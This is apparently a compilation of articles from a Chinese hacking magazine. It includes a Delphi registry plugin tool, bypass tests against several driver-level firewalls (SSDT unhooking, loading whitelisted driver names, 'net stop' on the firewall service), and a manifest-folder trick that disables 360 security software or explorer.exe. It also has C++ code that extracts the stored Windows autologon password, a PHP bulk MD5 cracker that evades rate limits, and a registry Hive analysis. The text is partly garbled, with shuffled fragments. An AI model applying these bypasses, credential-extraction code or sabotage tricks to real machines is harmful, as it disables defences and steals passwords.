下面，我们就来编写程序实现，如图3所示。这里有个问题交代一下：当第1次使用定位时，它会自动定位到该位置。第2个插件注册表定位时，注册表编辑器 regedit.exe 不动了，仍然是刚才第1个插件的定位位置，无法达到第2个。此时该怎么办呢？我想了一个办法，就是当定位第2个位置时，我会强制关闭 regedit.exe 程序，然后再打开就行了。在这点上和“风云防火墙”的相关功能差了很远，不知道它是怎么做的？

explanation 是四类插件说明。此处只提供部分代码，详细代码请见源代码。


图3

#### 源代码实现

本来我想分开注册表定位这个功能的，但由于主体程序段是一段插件的查询段，单纯地分开没有什么意义，所以就没有分开，同时还对上次的插件程序作了一些优化修改。其实主体查询程序就是一个函数 `procedure IE_Plugin_Manager(ReadORDeleteORStatusORLocate:string; keyvalue:string; explanation:string);`，用 ReadORDeleteORStatusORLocate 来作为“读取”、“删除”、“状态栏显示”、“注册表中定位”的各个功能，keyvalue 是插件名称，explanation 是四类插件说明。

```pascal
// 插件管理程序段
procedure IE_Plugin_Manager(ReadORDeleteORStatusORLocate:string; keyvalue:string; explanation:string);
// 关闭 regedit.exe 进程，方便下一次打开
function KillTask(ExeFileName: string): Integer;
const
  PROCESS_TERMINATE = $0001;
var
  ContinueLoop: boolean;
  FSnapshotHandle: THandle;
  FProcessEntry32: TProcessEntry32;
begin
  Result := 0;
  FSnapshotHandle := CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  FProcessEntry32.dwSize := SizeOf(FProcessEntry32);
  ContinueLoop := Process32First(FSnapshotHandle, FProcessEntry32);
  while Integer(ContinueLoop) <> 0 do
  begin
    if ((UpperCase(ExtractFileName(FProcessEntry32.szExeFile))=UpperCase(ExeFileName))or
        (UpperCase(FProcessEntry32.szExeFile)=UpperCase(ExeFileName))) then
      Result := Integer(TerminateProcess(OpenProcess(PROCESS_TERMINATE, BOOL(0),
        FProcessEntry32.th32ProcessID), 0));
    ContinueLoop := Process32Next(FSnapshotHandle, FProcessEntry32);
  end;
  CloseHandle(FSnapshotHandle);
end;

// 调用 regedit
procedure CallRegedit;
var
  WinPath: array[0..MAX_PATH] of Char;
begin
  GetWindowsDirectory(WinPath, 256);
  if KillTask('regedit.exe') = 0 then
    ShellExecute(0, 'open', pchar(WinPath + '\\regedit.exe'), '', '', SW_SHOW)
  else
    ShellExecute(0, 'open', pchar(WinPath + '\\regedit.exe'), '', '', SW_SHOW);
end;
```

本程序在 Windows 2003/XP、IE7、Delphi7 下调试通过。

> （编者提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：无  
关键词：工具、驱动、防火墙、绕过

### 对几种驱动防火墙的简单绕过测试

文／图 aosemp

对于驱动防火墙，大家都很熟悉了，机器狗的出现，让驱动防火墙得到了迅速发展。特别是在网吧，基本上每一种网管软件都加上了这个功能。但是效果怎么样呢？本文对常见的几种驱动防火墙作一个简单的绕过测试，以及介绍一些常见的与特别的方法。

#### 网盾 2.11 版驱动级机器狗防御

网盾采用的是 SSDT Hook 的方式，挂钩了 ZwCreateSection 和 ZwOpenProcess，防止加载驱动和结束自身进程。明显自我保护不够好，我们用依次结束线程的方法结束其进程 Hxclient.exe，发现其驱动竟然自动卸载了！看来不行啊！图1是我写的一个程序的截图。


图2

惊讶，居然没有 Hook NtLoadDriver。它 Hook 了一系列与注册表有关的函数，不 Hook NtLoadDriver 也没有问题。而且它还有几个没有识别出函数名的 Inline Hook，如 0x805d1858 是对 PspCreateProcess 的 Hook，0x805af342 是对 MmLoadSystemImage 的 Hook。看来绕过不容易呀，不过我们仍有办法。

一是它没有 Hook NtLoadDriver，我们只要成功写了注册表，还是可能成功绕过的。如以前的黑防就发表过用 NtRestoreKey 绕过微点的文章。但是它还有 MmLoadSystemImage 的 Hook，这样我们不一定成功。不过经我测试，MmLoadSystemImage 的 Hook 拦截似乎不怎么好。当我们 UnHook 所有的 SSDT Hook 后，测试是可以加载成功驱动的。

二是由于它没有 Hook NtOpenSection，在 Windows Server 2003 以前，我们可以通过为 `\\Device\\PhysicalMemory` 添加写权限，接着再加一个调用门或者中断门的方法进入 RING0，然...


图1

### 康禾（kungho）防火墙

如图2所示，康禾比较变态，Hook 了很多函数。我们关心的有 NtOpenProcess、NtOpenThread、NtSetSystemInformation 和 IoCreateFile。可能你会...后 UnHook 所有的 Hook。不过这个方法可能不太稳定，我没有测试。三是通过 NtSystemDebugControl 直接 UnHook 所有的函数，不过这个函数已经成为卡巴等杀毒软件的重点监控对象。四是细心的读者可能发现它竟然 Hook 了 DbgPrint，那我们打开 DbgView，看看加载驱动时有什么输出。不幸的是，它竟然输出了规则，而且竟然只有简单的名称校验！


图4

和它的界面一样，就试了试，如图5所示。

```
Rule[HKLM\SYSTEM\*\Services\*\ImagePath,|*keycrypt.sys|*ddsxei.sys|*seedrv.sys|*eaglent.sys|*.exe*|*(GameMon.des*|*system32\*.sys|*npkcusb.sys|*npkcrypt.sys|*xsVF.sys|*genfs.sys|*CMBProtector.dat|*CertClient.dat]
```

那我们试试加载这些中的任何一个，就用 keycrypt.sys 试试，真的成功了！如图3所示。


图3

## 易区网络 FireServer.1.1.3

FireServer 的 Hook 函数如图4所示，没想到保护这么简单。我们用结束线程试试，可以成功结束掉进程。不过它的驱动并没有卸载掉，保护仍然存在。看来我们只有另想办法。一是可以用 NtSetSystemInformation 加载驱动；二是同上面的第2、第3个方法；三是它的驱动也是通过 SCM 加载的，进程结束后，我们应该可以停止甚至卸载其服务。用“net stop EsuFire”试试，果然成功了，接下来就简单了。

#### DrvAnti 防火墙

最近网上对顺网的网维大师驱动防火墙意见很大，我也下载了一个 VD 试试，不过怎样都安装不成功。后来发现有一个自称驱动防火墙的程序。


图5

试了上面的各种绕过方法，都没有成功。但我们还有一个思路，DrvAnti 有几个选项：全部允许、提示选择、全部拒绝，那么它肯定有一个 IOCTL CODE 是用来控制的；我们可不可以人为打开它，然后构造这个 IOCTL CODE，使它自动停止工作呢？于是我 Hook 了 NtDeviceIoControlFile 用来监测 IOCTL CODE 调用。成功了，但是在用 CreateFile 打开它的驱动时出现了错误，提示 GetLastError 得到 5，MSDN 解释是 Access is denied。但是我打开另一个我们的驱动却可以成功，最终只有这个没有成功绕过，希望大家也想想办法。当然，如果允许重启的话，由于它没有保护注册表，我们可以删除注册表后重启，它的保护就没有了，但是在网吧环境下，目前还没有想到一个好的方法。

还有很多驱动防火墙我没有测试，比如迅闪的，是由于没有安装成功；还有强者网络的，要注册，也不行。但是我想，无论什么驱动防火墙，只要我们肯想，一定会有特别的办法来绕过，因为攻防永远是分不开的。

前置知识：无

关键词：工具、manifest 文件

### 禁止 360 安全卫士 v5.0 运行


文／图 swan

不知道大家是否还记得曾经有一个方法禁止程序运行很流行，它利用在程序目录新建一个名为“ws2_32.dll”的目录或者 DLL 文件，这样系统就会以文件出错而禁止运行。当时 360 安全卫士也难以幸免，当然，如今的 5.0 版本已经不会再出现这样的错误提示了。

这个方法的普遍流传，衍生了很多新技巧，直接在病毒或者网吧软件等目录禁止其运行，进而达到攻防的目的。木马病毒制作者基本很少在乎此类技巧的运用，但作为免疫病毒运行的技巧，还是适用的。然而作为木马病毒的“对抗者”却是很抵触的，总不能让小小文件就使其成为废品吧，这才导致其增加了禁止写入文件的自我保护。相对而言，360 作为安全辅助工具虽然没有禁止写入文件，但此法却已经对 5.0 版失效。

屡试不爽的方法不再适用，那还存在什么相似的方法可以使 360 因为错误提示而让系统禁止其运行呢？

首先，我们来到 360 的安装目录（`C:\Program Files\360\360Safe`），只要建立一个名为“360safe.exe.manifest”的文件夹或者 DLL 文件，就可以使其因为错误而禁止运行。当你重新打开 360 的时候，就会分别产生错误提示，图1为建立文件夹重新打开 360 的错误提示，图2为建立 DLL 文件而产生的错误提示。当然，右下角的图标将成为摆设而无法双击运行程序。

假如你只想破坏某程序的运行，只想禁止云查杀的运行，那么直接在其目录 `C:\Program Files\360\360Safe\deepscan` 下建立 manifest 文件就可以了，真是神不知鬼不觉！


图2

通过以上的描述，你或许已经知道如何运用了吧？那就是在程序目录新建名为“程序名.exe.manifest”的文件夹或者 DLL 文件。这里所建立的 manifest 是资源配置文件，软件运行过程需要调用，如果用空的文件代替，就会导致错误。此方法并不一定适合任何程序，比如 QQ，其本身就自带有名为“qq.exe.manifest”的文件，即使删除新建也无法禁用。要特别指出的是，系统文件也可以禁止运行！

有了这个方法，我们可以在此基础上，总结一下其适用范围。

- 适用于病毒免疫。当发现了病毒目录，又清除不了，你不想利用组策略来禁止其运行，此时最简单的方法在其目录下建立此类 manifest 文件。
- 可进行系统破坏。经过测试，此方法可以禁止 explorer.exe 和 taskmgr.exe 运行，导致注销／重启后无法显示桌面，任务管理器也无法调用，就算任务管理器可以调用，也无法在目录下找到 manifest 文件进行删除。如果这种情况发生，估计也只能重新安装或者还原系统了。

至于这个方法在其他方面的扩展应用，就靠大家继续发挥自己的想象力，说不定还能发现什么更好的应用呢。


图1

前置知识：VC  
关键词：工具、密码、自动登录

### 获取 Windows XP 登录密码


文／图 王彦嵘

前几天搜到一个小软件 Network Password Recovery，功能很强大，能查看很多种类型的密码，如 IE 保存的密码、MSN Messenger、Windows Messenger 自动登录密码等，其中也包括 Windows 登录密码，如图1所示，其中第一项 Autologon Password 就是登录密码。

这些 LSA 函数的返回值类型为 NTSTATUS，可以调用 LsaNtStatusToWinError() 将 NTSTATUS code 转换为 Windows 错误。存储密码的过程类似，不同的就是要调用 LsaStorePrivateData() 函数。两个函数参数基本相同，第1个参数为句柄，第2个参数 KeyName 也要设置成 “DefaultPassword”，第3个参数为要保存的数据，如果设置为 NULL，则清除以前保存的数据。在此基础上，我自己编写了一个获取登录密码的软件，界面如图2所示。下面详细分析代码关键部分。


当时感到很意外，因为我没有设置自动登录。打开注册表看到 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Current Version\Winlogon`，根本就没有 DefaultPassword 这一项。我很好奇它怎么得到这些数据，之后在 Google 搜了一下什么也没找到。后来几经周折，看到 MSDN 上的一篇文章 Protecting the Automatic Logon Password，了解了一些情况。其实过程挺简单，密码用 LsaStorePrivateData 安全地保存起来，而用 LsaRetrievePrivateData 可以取回保存的密码。

获取密码的大体过程是：调用 LsaOpenPolicy() 打开一个 Policy object 句柄，接着 LsaRetrievePrivateData()，将第2个参数 _in PLSA_UNICODE_STRING KeyName 的值改为 “DefaultPassword” 并设置一下，其他参数就可以获取密码。密码保存在第3个类型为 PLSA_UNICODE_STRING 的参数中，最后调用 LsaClose() 关闭句柄。


首先介绍一个关键的结构体，代码如下：

```c
typedef struct _LSA_UNICODE_STRING {
    USHORT Length;
    USHORT MaximumLength;
    PWSTR  Buffer;
} LSA_UNICODE_STRING, *PLSA_UNICODE_STRING;
```

Length 是当前字符串长度（字节为单位，不包括结尾的空字符），MaximumLength 是总的大小（字节为单位），Buffer 指向宽字符串的指针，返回的字符串可能不是空字符结尾的。

以下代码为读取密码的主要部分。

```cpp
LSA_OBJECT_ATTRIBUTES ObjectAttributes;
LSA_HANDLE LsaPolicyHandle = NULL;
// 保存取回的密码
PLSA_UNICODE_STRING lusSecretData;
// 指定保密项的名称，这里为 L"DefaultPassword"
LSA_UNICODE_STRING lusSecretName;
NTSTATUS ntsResult;
DWORD dwRetCode = ERROR_SUCCESS;

ZeroMemory(&ObjectAttributes, sizeof(LSA_OBJECT_ATTRIBUTES));
ObjectAttributes.Length = sizeof(LSA_OBJECT_ATTRIBUTES);

ntsResult = LsaOpenPolicy(
    NULL,
    &ObjectAttributes,
    POLICY_LOOKUP_NAMES,
    &LsaPolicyHandle);

if (STATUS_SUCCESS != ntsResult) {
    dwRetCode = LsaNtStatusToWinError(ntsResult);
    return dwRetCode;
}

lusSecretData = (PLSA_UNICODE_STRING)malloc(sizeof(LSA_UNICODE_STRING));
lusSecretData->Length = 0x500;
lusSecretData->MaximumLength = 0x500;
lusSecretData->Buffer = (PWSTR)malloc(0x500);

lusSecretName.Buffer = L"DefaultPassword";
lusSecretName.Length = (USHORT)wcslen(L"DefaultPassword") * sizeof(WCHAR);
lusSecretName.MaximumLength = lusSecretName.Length + sizeof(WCHAR);

ntsResult = LsaRetrievePrivateData(LsaPolicyHandle, &lusSecretName, &lusSecretData);
dwRetCode = LsaNtStatusToWinError(ntsResult);
LsaClose(LsaPolicyHandle);

CString cTemp;
CString cPass;
if (ntsResult == STATUS_SUCCESS) {
    cTemp = lusSecretData->Buffer;
}
```

```cpp
cPass = cTemp.Left(lusSecretData->Length / sizeof(WCHAR));
// cPass 此时保存的是密码
// lusSecretData->Length/sizeof(WCHAR) 是密码的长度

else if (ntsResult == STATUS_OBJECT_NAME_NOT_FOUND) {
    // 未找到，我们后面的程序会清除密码
    cPass = L"No Stored Pass.";
}
else {
    // 遇到其它错误
    cPass = L"";
}
```

下面的这段代码用来清除以前保存的数据。清除了密码后，如果重设密码，新密码依然会被保存。

```cpp
LSA_OBJECT_ATTRIBUTES ObjectAttributes;
LSA_HANDLE LsaPolicyHandle = NULL;
LSA_UNICODE_STRING lusSecretName;
NTSTATUS ntsResult = STATUS_SUCCESS;
DWORD dwRetCode = ERROR_SUCCESS;
USHORT SecretNameLength;

ZeroMemory(&ObjectAttributes, sizeof(ObjectAttributes));

ntsResult = LsaOpenPolicy(
    NULL,
    &ObjectAttributes,
    POLICY_CREATE_SECRET,
    &LsaPolicyHandle);

if (STATUS_SUCCESS != ntsResult) {
    dwRetCode = LsaNtStatusToWinError(ntsResult);
    return dwRetCode;
}

SecretNameLength = (USHORT)wcslen(L"DefaultPassword");
lusSecretName.Buffer = L"DefaultPassword";
lusSecretName.Length = SecretNameLength * sizeof(WCHAR);
lusSecretName.MaximumLength = (SecretNameLength + 1) * sizeof(WCHAR);

// 清除密码
ntsResult = LsaStorePrivateData(
    LsaPolicyHandle,
    &lusSecretName,
    ...);
```

```cpp
NULL);
// 此处为 NULL 表示清除，也可以设置其他值进行保留

dwRetCode = LsaNtStatusToWinError(ntsResult);
// 关闭
LsaClose(LsaPolicyHandle);
```

至此，程序的关键部分就结束了，可以看到整个过程还是不算复杂的。此工程由 VC++6.0 SP6 创建，并在 Windows XP SP3 下运行成功。

另外，此工程使用 Unicode 编码，但 VC6 默认情况下并没有安装 MFC 的 Static Libraries for Unicode 和 Share Libraries for Unicode，请在编译前安装或者将工程升级后再进行编译。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：PHP  
关键词：编程、MD5、在线破解

### 编写批量在线破解 MD5 程序

文／图 黄正 西安电子科技大学


近日，由于某种特殊的原因，需要破解成千上万条 MD5。在尝试手工一个一个向 www.cmd5.com 和 www.xmd5.org 提交了近 50 条之后，本人头昏眼花手也差点抽筋，实不堪忍受此种重复工作。萌生出自己写一小工具实现自动向网址查询的想法，也就有了本文。

我比较熟悉 PHP，大家以前都没想过 PHP 也可以写这东西吧？利用 PHP 中的 Fsockopen 函数发送和接收 HTTP 消息极其方便，只需写少量的代码就能实现向服务器递交数据，并且编写好的 PHP 文件 decode.php 可以继续转换成 EXE 控制台程序，从而彻底摆脱 PHP 平台而一跃成为普通的 Windows 程序。

#### 抓包分析

安装完 Wireshark 后，打开网卡监听，打开 www.xmd5.org，查询两条 MD5；一条能破解，另一条无法破解。通过分析与比较数据包得知查询过程如下：首先浏览器向服务器提交了一条 GET 消息，目标 URL 是“/md5/md5check.asp?md5pass=待查询的MD5”，紧接着服务器返回“302 Object moved”，此条消息中包含了将转向的 URL，即“Location: http://www.xmd5.org/md5/getpass.asp?type=***”。“***”可能情况有两种，一种为“no”，即无查询记录，无法破解；另一情况即是返回该 MD5 查询的结果。如提交“670B14728AD9902AECBA32E22FA4F6BD”，该 URL 为“http://www.xmd5.org/md5/getpass.asp?info=000000”，000000 即是该 MD5 解码后的结果。因此，通过定位前后特征字符串，从指定位置输出指定长度的字符串，即可将解码结果提取出来。

#### 测试连接

www.xmd5.org 为了防止用户短时间内大量提交查询数据，单 IP 在一段时间内（具体多长没测）最多只能查询约 60 次。60 次之后，提交 MD5 将返回任意结果，这种防数据提交的方法比较……“阴险”，所以我们要检测出当前是否处于能正确查询的状态，不然解出来的也是错的。

我想了一个方法，首先向服务器提交一条巨复杂、根本无法破解的 MD5，如果服务器返回无查询记录，即说明当前可正常查询；如果返回任意简单的数字显示已破解，即证明 www.xmd5.org 正在以假结果“糊弄”我们，也就不再继续提交了。

通过抓到的数据包分析后，构造数据包，写成连接测试函数 `checktest()`，代码如下：

```php
function checktest(){
  global $contents, $filename;
  $hash = "CCA9F141BD0DA3496C3FA6AB3B31ADD3";
  // 该MD5散列无法破解
  $fp = fsockopen('125.91.8.135', 80);
  // www.xmd5.org 的IP与端口
  $out = "GET /md5/md5check.asp?md5pass=$hash HTTP/1.1\r\n";
  $out .= "Accept: */*\r\n";
  $out .= "Referer: http://www.xmd5.org/\r\n";
  $out .= "Cookie: \r\n\r\n";
  fwrite($fp, $out);
  $fr = fread($fp, 4068);
  $beg = stripos($fr, 'Location');
  $end = stripos($fr, 'Server');
  $result = substr($fr, $beg + 51, $end - $beg - 53);
  if($result != "no"){
    echo "当前网站无法正常破解，建议重新拨号后再试!\r\n";
    exit;
  }
}
```

#### 解密与文件写入

首先将所有的 MD5 读入一字符串 `$contents`，以后 MD5 解密后的替换和整体文件的写入将主要操作该字符串 `$contents`，读取与替换查询结果函数如下：

```php
function openfile($filename){
  // 打开文件 $filename 读入所有MD5
  global $contents, $filename;
  $contents = file_get_contents($filename);
}

function replace($hash, $result, $contents){
  // 将MD5替换为已查询的结果
  global $contents, $filename;
  $contents = str_replace($hash, $result, $contents);
}
```

```php
// 将MD5替换为已查询的结果 $result
global $contents, $filename;
$contents = str_replace($hash, $result, $contents);
}
```

接着，稍微改写一下 `checktest()`，写成提交 MD5 并替换已查询的 MD5 的函数 `decode()`，部分源码如下：

```php
function decode($hash, $contents){
  $fp = fsockopen('125.91.8.135', 80);
  $out = "GET /md5/md5check.asp?md5pass=$hash HTTP/1.1\r\n";
  ...
  $result = substr($fr, $beg + 51, $end - $beg - 53);
  // 从返回结果中取查询结果
  if(strlen($result) <= 15){
    // 如果查询结果长度超过15，视为出错，exit
    if($result == "no"){
      echo ">无法破解\r\n\r\n";
    } else {
      echo ">已破解: $result\r\n\r\n";
      replace($hash, $result, $contents);
      // 将已查询到的结果替换原MD5
    }
  } else {
    echo "\r\n发现错误，建议重新拨号后再试!!!!\r\n";
    exit;
  }
  fclose($fp);
}
```

一般来说，超过 15 位的字符串经 MD5 加密后是解不开的，测试过程中返回的查询结果如果超过 15 位一般是出现了错误，所以加了一条判断语句。

接下来就是文件写入了，考虑到必须得定时检查连接是否正常，而且连接是否正常将直接影响破解结果的正确性，所以在主程序 `main()` 中每隔 5 个记录检查一次连接，如果连接正常将写入文件，否则直接退出。

#### 记录点

由于单个 IP 某时间段内查询个数有限制，这样当有成千上万条 MD5 时不可能一次完成，因此记录破解的进度是必要的，所以生成一个 `counter.txt` 文本记录破解的进度 `$beginid`。程序运行最开始将读取 `$beginid`，并在逐个读取 MD5 时使用变量 `$id` 计数，通过两个变量 `$beginid`、`$id` 相比较即可实现从指定位置开始破解。

代码如下：

```php
function setcounter($filename, $id){ // 设置破解进度
  global $beginid, $id;
  $fn = "counter.txt";
  $handle = @fopen($fn, "w+");
  if (fwrite($handle, $id)) { // 写入文件
    // echo "写入记录点成功! \r\n\r\n\r\n";
  } else {
    echo "写入记录点失败! \r\n\r\n\r\n";
    exit;
  }
  fclose($handle);
}

function readcounter(){ // 读取破解进度
  global $beginid, $id;
  $fn = "counter.txt";
  $handle2 = @fopen($fn, "a+");
  $beginid = fgets($handle2, 128);
  if ($beginid) {
    echo "\r\n记录点读取成功\r\n\r\n";
  } else {
    $beginid = 1; // 如果为空则设为1
  }
  return $beginid; // 返回进度
}
```

将 decode.php 复制到 bamcompile 目录，开始->运行->cmd，切换到 bamcompile 目录，键入命令“bamcompile.exe decode.php decode.exe”，即可成功生成 EXE 文件。当然，bamcompile 还有更多可选参数，有兴趣的读者自己看一下它的 readme.txt 吧。

#### 测试及问题

开始->运行->cmd，切换到 decode.exe 目录，我把待破解的几十条 MD5 保存在 c:\md5.txt，键入命令“decode.exe c:\md5.txt”。如图1所示，破解正常，速度很快，而且不依赖于 PHP 平台。注意，如果你要破解多个密码文件，请酌情清空 decode.exe 目录下的记录点文件 counter.txt，当然也可以自己在 counter.txt 中写入 `$beginid` 的值来指定从哪条 MD5 起开始破解。

#### 程序流程

检查连接，如果正常 -> 读取破解进度 `$beginid` -> 打开并读取密码文件至 `$contents` -> 定位到 `$beginid` 所在 MD5 散列，逐行读取密码文件至 `$hash`，并去掉尾部 `\r\n` -> 发送数据包进行解密，得到结果 `$result` -> 替换 `$contents` 出现的所有本条相同 `$hash` 为解密结果 `$result` -> 每解密 5 条 MD5 后检查连接，如果正常则写入文件，否则不写入文件并停止程序运行。具体代码见源码 `main()` 函数。

## 生成EXE文件

这一步将把生成的 decode.php 转换成不依赖于 PHP 平台的普通 Windows 程序。首先下载 bamcompile1.21，这是一个小巧的开源工具，使用了 Turck MMCache Encode library 对 PHP 代码进行 encode，自带了一个 UPX 命令行工具，能够压缩输出的 EXE 文件，目前支持 PHP 4.4.2 版本，对 PHP5 的支持也在计划中，已经捆绑了下列模块 Turck MMCache、bcmath、calendar、com、ctype、ftp、mysql、odbc、pcre、win32std、xml、zlib，使用它即可把 PHP 脚本转换成 Windows 的标准 EXE 可执行文件。

程序存在一个没有解决的问题，单次运行仅能破解大约 55 个 MD5 散列，这是 www.xmd5.org 服务器端做了 IP 验证的结果。对于 IP 伪造这方面，我暂时没有进行测试，所以现在没有很好的解决方法，只能是当程序出错时重新拨号上网，换个 IP 继续破解。但即使是这样，2000 条 MD5 在 10 分钟之内还是能破解完的。由于程序能自动设置破解记录点，所以不必担心重复破解的问题，重新拨号后再次键入命令即可以从断点位置继续往下破解。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：注册表  
关键词：注册表、Hive文件、木马

## 通过还原Hive文件分析木马功能

文/图 dhielen

近日，一朋友找到我，让我帮他看个文件，说是他怀疑机器可能是中了木马。经过杀毒软件查杀后阻止了一个文件，这个文件就是现在他拿给我的。他让我分析一下这是个什么文件，起什么作用，强调说既然是杀毒软件都报警了，肯定不是什么好东西。我欣然答应了。我这位朋友也是玩电脑很久了，有一定的排毒能力，他认为重要的，我当然就认为肯定很重要。这样既帮了朋友，也帮了自己，何乐而不为呢！？简单地问了下他的机器情况和操作系统情况以及一些进程方面的东西，就着手开始进行分析。

关于 Windows 系统注册表文件的组织格式，即 Hive 文件格式，并没有对开发者公开，但是针对它们的研究可通过逆向工程或者其他方法进行。通常情况下，所能看到的或者可以获取注册表的信息不是以 Hive 文件格式的形式存在，要通过 Hive 文件来进行注册表的检测和分析，首先要获取注册表信息对应的 Hive 文件。在 Windows 系统中，可以通过使用 API `RegSaveKey`/`RegSaveKeyEx` 函数来将指定键下的注册表信息转储为 Hive 格式的文件。所以说，Hive 文件不是通过手工能获取到的。

图1

注册表 Hive 文件的保存路径，而系统许多功能的实现是依赖于里面记录的这些文件提供信息的。正是由于这一性质，决定了系统 Hive 文件应该是安全的，内容也是最完整的。

## Hive的格式

在介绍 Hive 格式之前，我们先来看看 Hive 文件的组织形式，如图1所示。

注册表中 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\hivelist` 记录着系统注……

### 1. Hive格式头 HBASE_BLOCK

首先看它是个什么类型的文件，没想到是个注册表的 Hive 格式的文件，平时分析的最多的就是 EXE 和 DLL 文件，这种格式的文件还真是很少碰到。Hive 格式的文件有个格式头，即开头字母是 regf，如图2所示。

图2

从图中我们可以看到“regf”字符串，这显然是 registry files 的缩写，标志它是个注册表文件。其实文件的开头是 HBASE_BLOCK 结构，如图3所示。

```text
kd> dt _hbase_block
nt!_HBASE_BLOCK
+0x000 Signature : Uint4B
+0x004 Sequence1 : Uint4B
+0x008 Sequence2 : Uint4B
+0x00c TimeStamp : _LARGE_INTEGER
+0x014 Major : Uint4B
+0x018 Minor : Uint4B
+0x01c Type : Uint4B
+0x020 Format : Uint4B
+0x024 RootCell : Uint4B
+0x028 Length : Uint4B
+0x02c Cluster : Uint4B
+0x030 FileName : [64] UChar
+0x070 Reserved1 : [99] Uint4B
+0x1fc CheckSum : Uint4B
+0x200 Reserved2 : [894] Uint4B
+0xff8 BootType : Uint4B
+0xffc BootRecover : Uint4B
```

图3

图3是 Hive 文件的格式头，大小为 0x1000，换算一下就是 4K 大小。这个 HBASE_BLOCK 格式里面包含了一些全局信息，包括一个特征签名 regf、更新的序列号、时间戳、hive 格式版本号、校验和以及该 hive 的内部文件名。没有什么好解释的，大家可以将图2和图3结合起来对照看一下。

### 2. HBIN格式

- 1. HBIN头格式

Hive 文件是由 HBASE_BLOCK 和称为 BIN 的东西组成的，而 BIN 则是由称为 cell 的东西组成。在 0x1000 开始处是个 HBIN 结构，如图4所示。

图4

在 HBIN 结构中有一个 24H 字节长的 HBIN 头，其主要内容是 4 字节的“hbin”字符串、4 字节的从 0x1000 开始的偏移、4 字节的本 BIN 的大小，其余字节是时间戳以及一些保留字节。

- 2) CELL格式

如果一个 cell 要加入一个 hive，而该 hive 必须扩充才能装下它时，系统会创建一个被称为 bin 的分配单元。该 bin 的范围包括了新添 cell 所占空间再延续到下一个 block 边界。系统将 bin 中除了 cell 以外的部分视为可以分配给其他 cell 的空闲空间。所以从 `0x1000+0x24=0x1024` 开始处就是 CELL 的数据，而 CELL 数据可以是一个键、一个值、一个安全描述符、一列子键或者一列键值。它主要是一个联合体。

```c
typedef struct _CELL_DATA {
  union _u {
    CM_KEY_NODE KeyNode;
    CM_KEY_VALUE KeyValue;
    CM_KEY_SECURITY KeySecurity;
    CM_KEY_INDEX KeyIndex[];
    CM_BIG_DATA ValueData;
    HCELL_INDEX KeyList[];
    WCHAR KeyString[];
  } u;
} CELL_DATA, *PCELL_DATA;
```

该结构中嵌套了一个联合体，用于代表 cell 可以存放的不同类型的数据。所以，从 0x1024 开始就是 CM_KEY_NODE 的键结构。我们来看一下这个键结构，如图5所示。解释如下：

```text
kd> dt _cm_key_node
nt!_CM_KEY_NODE
 +0x000 Signature        : Uint2B
 +0x002 Flags            : Uint2B
 +0x004 LastWriteTime    : _LARGE_INTEGER
 +0x00c Spare            : Uint4B
 +0x010 Parent           : Uint4B
 +0x014 SubKeyCounts     : [2] Uint4B
 +0x01c SubKeyLists      : [2] Uint4B
 +0x024 ValueList        : _CHILD_LIST
 +0x01c ChildHiveReference : _CM_KEY_REFERENCE
 +0x02c Security         : Uint4B
 +0x030 Class            : Uint4B
 +0x034 MaxNameLen       : Pos 0, 16 Bits
 +0x034 UserFlags        : Pos 16, 4 Bits
 +0x034 VirtControlFlags : Pos 20, 4 Bits
 +0x034 Debug            : Pos 24, 8 Bits
 +0x038 MaxClassLen      : Uint4B
 +0x03c MaxValueNameLen  : Uint4B
 +0x040 MaxValueDataLen  : Uint4B
 +0x044 WorkVar          : Uint4B
 +0x048 NameLength       : Uint2B
 +0x04a ClassLength      : Uint2B
 +0x04c Name             : [1] Uint2B
```

图5

```text
+0x01c SubKeyLists      : [2] Uint4B
// SubKeyLists[0] 子键列表相差本 BIN 的偏移
+0x024 ValueList        : _CHILD_LIST
// ValueList.Count 值的个数
// ValueList.List 值列表相差本 BIN 的偏移
+0x01c ChildHiveReference : _CM_KEY_REFERENCE
+0x02c Security         : Uint4B
+0x030 Class            : Uint4B
+0x034 MaxNameLen       : Pos 0, 16 Bits
+0x034 UserFlags        : Pos 16, 4 Bits
+0x034 VirtControlFlags : Pos 20, 4 Bits
+0x034 Debug            : Pos 24, 8 Bits
+0x038 MaxClassLen      : Uint4B
+0x03c MaxValueNameLen  : Uint4B
+0x040 MaxValueDataLen  : Uint4B
+0x044 WorkVar          : Uint4B
+0x048 NameLength       : Uint2B
// 键名的长度
+0x04a ClassLength      : Uint2B
+0x04c Name             : [1] Uint2B   // 键名
```

在这个键结构中较重要的是 0x4c 处的键名、0x48 处的键名长度、0x14 处的子键个数值、0x1c 处的子键列表偏移值、0x00 处的“nk”标志。

接下来，我们看一下 CM_KEY_VALUE 的结构，如图6所示。

```text
kd> dt _cm_key_value
nt!_CM_KEY_VALUE
 +0x000 Signature  : Uint2B
 +0x002 NameLength : Uint2B
 +0x004 DataLength : Uint4B
 +0x008 Data       : Uint4B
 +0x00c Type       : Uint4B
 +0x010 Flags      : Uint2B
 +0x012 Spare      : Uint2B
 +0x014 Name       : [1] Uint2B
```

图6

```text
kd> DT _CM_KEY_VALUE
nt!_CM_KEY_VALUE
 +0x000 Signature  : Uint2B
 // vk字符串
 +0x002 NameLength : Uint2B
 +0x004 DataLength : Uint4B
 // 数据长度，以字节计，包括结束符
 +0x008 Data       : Uint4B
 // 注意：数据偏移或数据判断，如果DataLength最高位为1，那么它就是数据，且DataLength&0x7FFFFFFF为数据长度
 +0x00c Type       : Uint4B
 +0x010 Flags      : Uint2B
 +0x012 Spare      : Uint2B
 +0x014 Name       : [1] Uint2B
```

在这个值结构中较重要的是 0x2 处的值名长度、0x4 处的数据长度、0x8 处的数据偏移或数据、0x14 处的值名，另外最重要的就是 0x00 处的“vk”标志。

接下来，我们再看看 CM_KEY_SECURITY 结构，如图7所示，这个在具体分析中再看。

```text
kd> dt _cm_key_security
nt!_CM_KEY_SECURITY
 +0x000 Signature          : Uint2B
 +0x002 Reserved           : Uint2B
 +0x004 Flink              : Uint4B
 +0x008 Blink              : Uint4B
 +0x00c ReferenceCount     : Uint4B
 +0x010 DescriptorLength   : Uint4B
 +0x014 Descriptor         : _SECURITY_DESCRIPTOR_RELATIVE
```

图7

我们来看看下一个结构 CM_KEY_INDEX，如图8所示。

```text
kd> dt _cm_key_index
